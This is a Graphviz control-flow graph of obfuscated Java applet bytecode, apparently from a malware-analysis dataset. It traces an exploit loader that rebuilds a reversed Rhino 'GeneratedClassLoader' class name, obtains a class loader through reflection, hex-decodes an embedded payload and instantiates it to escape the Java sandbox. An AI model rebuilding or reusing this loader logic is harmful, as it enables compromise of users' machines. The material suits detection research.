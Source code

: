 digraph "" {
    "r0 := @this: hw"
    "new java.lang.StringBuilder"
    "r0 := @this: hw"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "staticget <RunnerGood: java.lang.String zz>"
    "dup1.r"->"staticget <RunnerGood: java.lang.String zz>";
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"
    "staticget <RunnerGood: java.lang.String zz>"->"staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>";
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"
    "staticinvoke <java.lang.String: java.lang.String valueOf(java.lang.Object)>"->"specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>";
    "push \"vaj.allizom.gro.n\""
    "specialinvoke <java.lang.StringBuilder: void <init>(java.lang.String)>"->"push \"vaj.allizom.gro.n\"";
    "push \"us\""
    "push \"vaj.allizom.gro.n\""->"push \"us\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"us\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "staticinvoke <hw: java.lang.String pah(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"staticinvoke <hw: java.lang.String pah(java.lang.String)>";
    "staticinvoke <RunnerGood: java.lang.Class bug(java.lang.String)>"
    "staticinvoke <hw: java.lang.String pah(java.lang.String)>"->"staticinvoke <RunnerGood: java.lang.Class bug(java.lang.String)>";
    "staticinvoke <RunnerGood: java.lang.Class bug(java.lang.String)>"->"dup1.r";
    "push \"enter\""
    "dup1.r"->"push \"enter\"";
    "push 1"
    "push \"enter\""->"push 1";
    "staticinvoke <codehex: java.lang.reflect.Method lot(java.lang.Class,java.lang.String,boolean)>"
    "push 1"->"staticinvoke <codehex: java.lang.reflect.Method lot(java.lang.Class,java.lang.String,boolean)>";
    "push null"
    "staticinvoke <codehex: java.lang.reflect.Method lot(java.lang.Class,java.lang.String,boolean)>"->"push null";
    "push 0"
    "push null"->"push 0";
    "newarray"
    "push 0"->"newarray";
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"
    "newarray"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "store.r r2"
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"store.r r2";
    "push \"createClassLoader\""
    "store.r r2"->"push \"createClassLoader\"";
    "push \"createClassLoader\""->"push 0";
    "push 0"->"staticinvoke <codehex: java.lang.reflect.Method lot(java.lang.Class,java.lang.String,boolean)>";
    "load.r r2"
    "staticinvoke <codehex: java.lang.reflect.Method lot(java.lang.Class,java.lang.String,boolean)>"->"load.r r2";
    "load.r r2"->"push 1";
    "push 1"->"newarray";
    "newarray"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"store.r r2";
    "staticinvoke <test2: java.lang.String one()>"
    "store.r r2"->"staticinvoke <test2: java.lang.String one()>";
    "staticinvoke <d: byte[] decodeH(java.lang.String)>"
    "staticinvoke <test2: java.lang.String one()>"->"staticinvoke <d: byte[] decodeH(java.lang.String)>";
    "store.r r5"
    "staticinvoke <d: byte[] decodeH(java.lang.String)>"->"store.r r5";
    "push \"redaoLssalCdetareneG.lanretn\""
    "store.r r5"->"push \"redaoLssalCdetareneG.lanretn\"";
    "push \"i.tpircsavaj.all\""
    "push \"redaoLssalCdetareneG.lanretn\""->"push \"i.tpircsavaj.all\"";
    "push \"izom.gro.nus\""
    "push \"i.tpircsavaj.all\""->"push \"izom.gro.nus\"";
    "push \"izom.gro.nus\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <hw: java.lang.String pah(java.lang.String)>";
    "staticinvoke <hw: java.lang.String pah(java.lang.String)>"->"staticinvoke <RunnerGood: java.lang.Class bug(java.lang.String)>";
    "staticget <test2: java.lang.String dd>"
    "staticinvoke <RunnerGood: java.lang.Class bug(java.lang.String)>"->"staticget <test2: java.lang.String dd>";
    "staticget <test2: java.lang.String dd>"->"push 0";
    "push 0"->"staticinvoke <codehex: java.lang.reflect.Method lot(java.lang.Class,java.lang.String,boolean)>";
    "store.r r7"
    "staticinvoke <codehex: java.lang.reflect.Method lot(java.lang.Class,java.lang.String,boolean)>"->"store.r r7";
    "load.r r0"
    "store.r r7"->"load.r r0";
    "staticinvoke <codehex: java.lang.String get(java.applet.Applet)>"
    "load.r r0"->"staticinvoke <codehex: java.lang.String get(java.applet.Applet)>";
    "store.r r0"
    "staticinvoke <codehex: java.lang.String get(java.applet.Applet)>"->"store.r r0";
    "store.r r0"->"load.r r0";
    "push \"::\""
    "load.r r0"->"push \"::\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"::\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "push -1"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i load.r r7"
    "push -1"->"ifcmpne.i load.r r7";
    "load.r r7"
    "ifcmpne.i load.r r7"->"load.r r7";
    "load.r r7"->"load.r r2";
    "push 2"
    "load.r r2"->"push 2";
    "push 2"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 1";
    "load.r r5"
    "push 1"->"load.r r5";
    "arraywrite.r"
    "load.r r5"->"arraywrite.r";
    "arraywrite.r"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "checkcast"
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/String;\""
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "virtualinvoke <java.lang.Class: java.lang.reflect.Constructor getConstructor(java.lang.Class[])>"
    "arraywrite.r"->"virtualinvoke <java.lang.Class: java.lang.reflect.Constructor getConstructor(java.lang.Class[])>";
    "virtualinvoke <java.lang.Class: java.lang.reflect.Constructor getConstructor(java.lang.Class[])>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "virtualinvoke <java.lang.reflect.Constructor: java.lang.Object newInstance(java.lang.Object[])>"
    "arraywrite.r"->"virtualinvoke <java.lang.reflect.Constructor: java.lang.Object newInstance(java.lang.Object[])>";
    "pop"
    "virtualinvoke <java.lang.reflect.Constructor: java.lang.Object newInstance(java.lang.Object[])>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"
    "virtualinvoke <java.lang.reflect.Constructor: java.lang.Object newInstance(java.lang.Object[])>"->"virtualinvoke <java.lang.Exception: void printStackTrace()>";
    "ifcmpne.i load.r r7"->"load.r r7";
    "load.r r7"->"load.r r2";
    "load.r r2"->"push 2";
    "push 2"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 1";
    "staticget <Asd: byte[] arrayOfByte2>"
    "push 1"->"staticget <Asd: byte[] arrayOfByte2>";
    "staticget <Asd: byte[] arrayOfByte2>"->"arraywrite.r";
    "arraywrite.r"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"checkcast";
    "checkcast"->"dup1.r";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"
    "dup1.r"->"virtualinvoke <java.lang.Class: java.lang.Object newInstance()>";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"->"pop";
    "pop"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r2";
    "store.r r2"->"load.r r2";
    "load.r r2"->"push 0";
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "load.r r2"->"push 1";
    "push class \"Ljava/lang/Class;\""
    "push 1"->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"arraywrite.r";
    "push \"r\""
    "arraywrite.r"->"push \"r\"";
    "push \"r\""->"load.r r2";
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"
    "load.r r2"->"virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>";
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r2";
    "store.r r2"->"load.r r2";
    "load.r r2"->"push 0";
    "push 0"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "load.r r2"->"push 1";
    "push class \"Lhw;\""
    "push 1"->"push class \"Lhw;\"";
    "push class \"Lhw;\""->"arraywrite.r";
    "arraywrite.r"->"push null";
    "push null"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"pop";
    "pop"->"goto return";
}
